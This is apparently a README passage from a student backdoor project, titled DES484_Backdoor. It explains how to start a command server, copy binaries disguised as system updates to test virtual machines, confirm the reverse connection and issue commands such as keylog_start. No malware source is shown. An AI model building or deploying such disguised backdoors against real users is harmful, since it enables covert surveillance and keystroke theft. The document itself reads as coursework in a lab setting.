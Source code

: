 
## 🧪 Testing Before Deployment

**Always test first!**

### 1. Start Server

```bash
cd /Users/kaweewatnoisuwan/Desktop/DES484_Backdoor
python3 server.py
```

### 2. Copy to Test VM

```bash
# Windows VM
scp SecurityUpdate.exe user@windows-vm:~/Desktop/

# macOS VM
scp -r SystemUpdate.app user@mac-vm:~/Desktop/

# Linux VM
scp system-update user@linux-vm:~/
```

### 3. Execute on VM

- Windows: Double-click `SecurityUpdate.exe`
- macOS: Double-click `SystemUpdate.app`
- Linux: `chmod +x system-update && ./system-update`

### 4. Verify Connection

Check server terminal for:

```
[+] Connection established from [VM_IP]:[PORT]
```

### 5. Test Commands

```bash
[VM_IP]> help_advanced
[VM_IP]> sysinfo
[VM_IP]> keylog_start
```

---

## 📊 File Information

| File               | Type         | Size      | Platform     | Python Required? |
| ------------------ | ------------ | --------- | ------------ | ---------------- |
| SecurityUpdate.exe | Windows PE   | ~8-15 MB  | Windows 7+   | ❌ No            |
| SystemUpdate.app   | macOS Bundle | ~10-20 MB | macOS 10.12+ | ❌ No            |
| system-update      | ELF Binary   | ~8-15 MB  | Linux (x64)  | ❌ No            |

---